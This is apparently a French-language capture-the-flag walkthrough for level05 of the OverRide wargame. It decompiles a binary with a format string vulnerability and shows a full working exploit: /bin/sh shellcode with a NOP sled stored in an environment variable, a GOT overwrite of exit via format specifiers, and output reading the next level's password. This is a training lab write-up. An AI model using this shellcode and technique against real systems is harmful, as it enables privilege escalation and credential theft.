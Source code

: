 # **Level 05**

Pour ce `level05` nous decompilons l'executable

```
#include <stdio.h>
#include <stdlib.h>

int main(void)
{
	char s[100]; // [esp+28h] [ebp-70h] BYREF
	unsigned int i; // [esp+8Ch] [ebp-Ch]

	i = 0;
	fgets(s, 100, stdin);
	for ( i = 0; i < strlen(s); ++i ) //tolower
	{
		if ( s[i] > 64 && s[i] <= 90 )
			s[i] ^= 0x20u;
	}
	printf(s);
	exit(0);
}
```

Donc le code prend un input de `100` caractere, effectue un `tolower` dessus, puis l'affiche en utilisant `printf`

Cependant `printf` est ici mal utilise, le premier arguments de `printf` correspond a la format string donc
les `%_` sont interprete, on peux donc faire une `format string attack` sur cette executable

On va donc mettre un `shellcode` dans l'env precede par une multitude de `NOP` puis remplacer l'addresse de `exit`
par l'addresse de notre `shellcode` grace au `%n`

Nous commencons par recuperer l'addresse d'`exit`

```
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    *0x80497e0 <==
   0x08048376 <+6>:	push   $0x18
   0x0804837b <+11>:	jmp    0x8048330
```
Adresse exit -> `0x80497e0`

Puis nous creeons notre `shellcode` dans l'env
```
level05@OverRide:~$ export SHELLCODE=$(python -c "print'\x90'*1024 + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh'")
```

Et nous recuperons sont addresse
```
(gdb) x getenv("SHELLCODE")
0xffffd4ba:	0x90909090
```

Et la nous avons un probleme, car `0xffffd4b0` est superieur a `2147483647 (MAXINT)` aui est la valeur maximal que prend `%n`
donc nous ne pouvons pas ecrire cette addresse de cette facon

Il faut donc ruser, un `int` est compose de `4` bytes ce aui signifie que pour avancer d'`int` en `int` il faut avancer de `4` bytes.
Mais que ce passe-t-il quand on avance uniquement de `2` bytes ?
Tout simplement on recupere les deux derniers byte de l'addresse de base et les 2 premiers byte de l'addresse suivante

Voici un schema pour expliquer

![Le schema](/level05/resources/ovveridelvl05.png)

Donc le plan est d'ecrire les `2` premiers bytes de l'addresse de notre `shellcode` dans l'addresse `exit`
puis les `2` derniers dans l'addresse d'`exit + 2`.

> On vise au milieux des `NOP` donc `0xd4ba` deviens `0xd5ba`

Soit `0xd5ba - 8` = `54714` puis `0xffff - 0xd5ba - 8 = 10813`

On peux donc faire notre payload

> On utilise `%hn` au lieu de `%n` pour marque le fais qu'on ecrit uniquement sur les 2 premiers bytes

```
level05@OverRide:~$ python -c 'print"\xe0\x97\x04\x08"+"\xe2\x97\x04\x08"+"%54714x%10$n%10813x%11$n"' > /var/crash/file
level05@OverRide:~$ cat /var/crash/file - | ./level05 
id
uid=1005(level05) gid=1005(level05) euid=1006(level06) egid=100(users) groups=1006(level06),100(users),1005(level05)
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq

```

> ### NEXT : [Level 06](/level06/walkthrough.md)
